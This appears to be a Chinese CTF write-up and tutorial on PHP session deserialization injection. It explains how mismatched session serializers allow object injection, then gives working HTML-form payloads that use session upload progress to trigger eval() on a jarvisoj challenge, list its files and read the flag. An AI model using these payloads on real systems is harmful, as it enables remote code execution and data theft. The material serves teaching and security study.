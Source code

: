 ## session反序列化

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`username|s:4:"asdf";`(键名+竖线+经过`serialize()`函数序列处理的值)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_serialize');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

`a:1:{s:8:"username";s:4:"asdf";}`(经过`serialize()`函数序列化处理的数组)

```php
<?php
    error_reporting(0);
    ini_set('session.serialize_handler','php_binary');//这里换不同的存储引擎
    session_start();
    $_SESSION['username']="asdf";
?>
```

![](PHP_Session.png)

`usernames:4:"asdf";`(**键名的长度**对应的ASCII字符(BS的ASCII为8)+键名+经过`serialize()`函数序列化处理的值)

**当序列化的引擎和反序列化的引擎不一致时,就可以利用引擎之间的差异产生序列化注入漏洞**

[https://www.php.net/session_start/](https://www.php.net/session_start/)

>当会话自动开始或者通过session_start()手动开始的时候，PHP内部会调用会话管理器的open和read回调函数。会话管理器可能是PHP默认的，也可能是扩展提供的（SQLite或者Memcached扩展），也可能是通过session_set_save_handler()设定的用户自定义会话管理器。通过read回调函数返回的现有会话数据（使用特殊的序列化格式存储），PHP 会**自动反序列化数据并且填充$_SESSION超级全局变量**

```php
<?php
//1.php
error_reporting(0);
ini_set('session.serialize_handler', 'php_serialize');//使用php_serialize引擎存储
session_start();
$_SESSION['username'] = $_GET['user'];
var_dump($_SESSION);
?>
```

```php
<?php
//2.php
error_reporting(0);
ini_set('session.serialize_handler', 'php');//使用php引擎存储
session_start();

class user
{
    var $name = "zhangsan";

    public function __destruct()
    {
        echo $this->name;
    }
}
?>
```

对于`php_serialize`引擎来说`|`是一个普通字符,但对于`php`引擎来说`|`是键名与序列化值的分隔符,从而在解析的时候造成了歧义,导致其在解析Session文件时直接对`|`后的值进行反序列化处理

对`1.php`传入`?user=|O:4:"user":1:{s:4:"name";s:4:"asdf";}`此时的`sess`文件为`a:1:{s:8:"username";s:38:"|O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`

调用`2.php`,`php`引擎将`|`作为分隔符处理,前半部分`a:1:{s:8:"username";s:38:"`被`php`引擎作为Session的键值处理,后半部分`O:4:"user":1:{s:4:"name";s:4:"asdf";}";}`被Session自动反序列化,从而调用2.php中的user类

---

可能存在无法直接对Session赋值的情况

[https://www.php.net/manual/zh/session.upload-progress.php](https://www.php.net/manual/zh/session.upload-progress.php)

>当`session.upload_progress.enabled`的INI选项开启时，PHP能够在每一个文件上传时监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
>当一个上传在处理中，同时**POST一个与INI中设置的session.upload_progress.name同名变量**时，上传进度可以在`$_SESSION`中获得。当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据,索引是`session.upload_progress.prefix`与`session.upload_progress.name`连接在一起的值。

[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784/)

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

|Directive|Local Value|Master Value|
|:---:|:---:|:---:|
|session.serialize_handler|**php**|**php_serialize**|
|session.upload_progress.cleanup|Off|Off|
|session.upload_progress.enabled|On|On|
|session.upload_progress.freq|1%|1%|
|session.upload_progress.min_freq|1|1|
|session.upload_progress.name|PHP_SESSION_UPLOAD_PROGRESS|PHP_SESSION_UPLOAD_PROGRESS|
|session.upload_progress.prefix|upload_progress_|upload_progress_|

引擎存在差异,存在反序列化漏洞,`session.upload_progress.enabled==On`,可以进行文件上传

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

随便提交一个文件得到`Array ( [0] => . [1] => .. [2] => Here_1s_7he_fl4g_buT_You_Cannot_see.php [3] => index.php [4] => phpinfo.php )`

![](PHP_Session_Upload1.png)

已知`DOCUMENT_ROOT`为`/opt/lampp/htdocs`,通过`file_get_contents`对flag进行读取

```php
<!DOCTYPE html>
<html>
<body>
    <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value='|O:5:"OowoO":1:{s:4:"mdzz";s:88:"print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));";}'/>
        <input type="file" name="file"/>
        <input type="submit"/>
    </form>
</body>
</html>
```

![](PHP_Session_Upload2.png)
